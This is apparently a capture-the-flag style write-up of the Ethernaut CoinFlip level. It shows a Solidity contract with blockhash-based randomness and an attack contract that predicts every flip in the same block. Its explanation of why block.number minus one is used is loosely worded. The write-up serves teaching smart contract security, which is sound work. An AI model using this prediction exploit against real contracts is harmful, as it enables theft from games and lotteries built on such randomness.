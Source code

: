 ```yaml
---
description: randomness in blockchain
---
```


# 3 - Coinflip

Ethernaut Level3: [Coinflip](https://ethernaut.openzeppelin.com/level/0x90501cC20b65f603f847398740eaC4C9BE4873a9)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Goal of this level

* guess the correct outcome **10 times** in a row

### What you should know before

* Deterministic feature of blockchain\
  \-> see [here](https://youtu.be/8FF3IBTMeK0)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

You can **mimic** the exact calculation of of the random number

</details>

Use Remix IDE!

```solidity
contract AttackCoinFlip {
    CoinFlip public coinFlipContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _instanceAddr) public{
        coinFlipContract = CoinFlip(_instanceAddr);
    }
    
    function makeGuess() public {

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        coinFlipContract.flip(guess);
    }
}
```

Transaction to call `makeGuess()` and `flip()` will be mined in the same block, so the value of `block.number` will be the same.

You merely have to run `makeGuess()` function `10` times in a row.

Done! 😎

#### Why the code uses block.number - 1

The transaction itself affects the value of `blockhash`,\
so `blockhash(block.number)` is fixed to be `0`.

## Key Takeaway

* There's no such thing as true randomness in blockchain,\
  every thing is **deterministic**!
